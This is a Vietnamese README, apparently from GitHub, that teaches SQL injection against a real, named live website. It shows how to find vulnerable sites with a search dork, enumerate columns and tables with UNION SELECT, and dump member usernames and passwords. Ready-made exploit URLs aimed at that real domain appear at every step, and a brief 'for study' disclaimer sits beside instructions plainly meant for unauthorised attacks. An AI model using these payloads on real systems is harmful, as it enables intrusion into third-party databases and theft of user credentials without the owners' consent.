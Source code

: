 # Hướng dẫn tấn công SQLi trên Web thật!                                                     
By: Nguyễn Hữu Nghi
***

** Lưu ý: Bài Demo này là tấn công dựa trên web thật do mình tìm được, với mục đích học tập. Các bạn có thể làm theo nhưng vui lòng đừng thực hiện các tấn công nguy hiểm nhầm phá hoại trang web. Xin cảm ơn! **

## Bước 1:
Tìm kiếm đối tượng tấn công sử dụng lệnh: ```inurl product.php id= site vn``` thông qua các trình duyệt web thông dụng như Chrome, Edge, Cốc Cốc,....
## Bước 2:
Sau khi tìm được đối tượng tấn công.
Mình khuyên các bạn nên tìm các trang web có địa chỉ bắt đầu bằng `http` thay vì`https` thì tấn công sẽ dễ thành công hơn.
<br>
Ví dụ:
![image](https://github.com/user-attachments/assets/a7f45723-3797-426a-a32f-c7ff238794c4)
</br>
** Lưu ý: không phải trang web nào các bạn cũng thực hiện tấn công thành công được, nên đừng quá chán nản. Hãy tập trung tìm điểm yếu hoặc trang wed khác! **

## Bước 3:
Mình sẽ lấy trang web mình tìm được:
http://www.igoergo.com/_site/products.php?cat=02
- Xác định số cột <br></br>
```order by 1-- -``` nếu web vẫn bình thường hãy thử lại với số cao hơn! <br>
```order by 3-- -``` web sẽ xảy ra lỗi => Điều này có nghĩa số cột cần tìm > 1 và < 2.<br>
```order by 2-- -``` web vẫn bình thường => số cột của web này là 2.<br>
Trông nó sẽ như này: ```http://www.igoergo.com/_site/products.php?cat=02%20order%20by%202--%20-``` %20 chỉ tượng trưng cho dấu cách các bạn không cần phải lo!
- Xác định cột bị lỗi để có thể chèn code của mình vào <br></br>
Sử dụng lệnh: ```union select 1,2-- -```    
** Lưu ý: bước trên các bạn tìm được bao nhiêu cột thì bắt buộc phải gõ đủ bấy nhiêu cột.  VD: union select 1,2,3,4,5-- - <br></br>
Để lệnh chạy đc thì các bạn thêm `-` trước giá trị của `cat`. ( hoặc `id` nếu các bạn tấn công web khác mình)<br></br>
Trông như này: ```http://www.igoergo.com/_site/products.php?cat=-02%20union%20select%201,2--%20-```<br></br>
Kết quả: <br>
![image](https://github.com/user-attachments/assets/558bdd0d-fcd4-4178-9870-b9a1ecd0b54e)  </br> 
=> Điều này có nghĩa là bạn có thể chèn code vô cột 1.
**Nếu bạn nghĩ mình đã gõ đúng mà Web vẫn báo lỗi hãy kiểm tra lại từng chữ mà bạn gõ!!!**
## Bước 4:
Thực hiện chèn code bằng các lệnh: <br>
```user()``` => coi user của web <br>
```database()``` => coi thông tin về database <br>
```version()``` => coi version của database <br>
Trông như thế này: <br>
```http://www.igoergo.com/_site/products.php?cat=-02%20union%20select%20user(),2--%20-```
</br>
### Bước 4.1:
- Tìm tên các tables trong database: <br>
``` union select group_concat(table_name),2 from information_schema.tables where table_schema= database();-- -``` <br>
- Trông sẽ như này: <br>```http://www.igoergo.com/_site/products.php?cat=-02%20union%20select%20group_concat(table_name),2%20from%20information_schema.tables%20where%20table_schema=%20database();--%20-```</br>
### Bước 4.2:
- Tìm tên các cột trong 1 table cụ thể.<br>
**Thường lấy các cột trong table về chủ sở hữu web vì nó chứa các thông tin quan trọng** <br>
- Ở đây mình lấy table `member` để tấn công. <br> 
Nhưng trước tiên mình cần đổi member thành hệ thập lục phân Hex.
Link đổi sang Hex: https://www.hexator.com/ <br>
```member``` đổi sang Hex sẽ là ```6d656d626572``` <br>
- Sử dụng lệnh: ```union select group_concat(column_name),2 from information_schema.columns where table_name= 0x6d656d626572-- -``` <br>
**Lưu ý: chổ table_name thêm `0x` rồi sau đó là hex của member là `6d656d626572` <br>
- Trông như này: ```http://www.igoergo.com/_site/products.php?cat=-02%20union%20select%20group_concat(column_name),2%20from%20information_schema.columns%20where%20table_name=%200x6d656d626572--%20-``` <br>
### Bước 4.3:
- Xem nội dung trong các cột: <br>
  Sử dụng lệnh: ```union select group_concat(id,username,password),2 from member-- -``` tuy nhiên kết quả trả về sẽ bị gộp rất khó coi.<br>
  Chèn dấu `/` để dễ nhìn => `2f` => ```union select group_concat(id,0x2f,username,0x2f,password),2 from member-- -```
- Trông nó sẽ như thế này:```http://www.igoergo.com/_site/products.php?cat=-02%20union%20select%20group_concat(id,0x2f,username,0x2f,password),2%20from%20member--%20-```
### Chúc mừng bạn đã tấn công thành công!!!













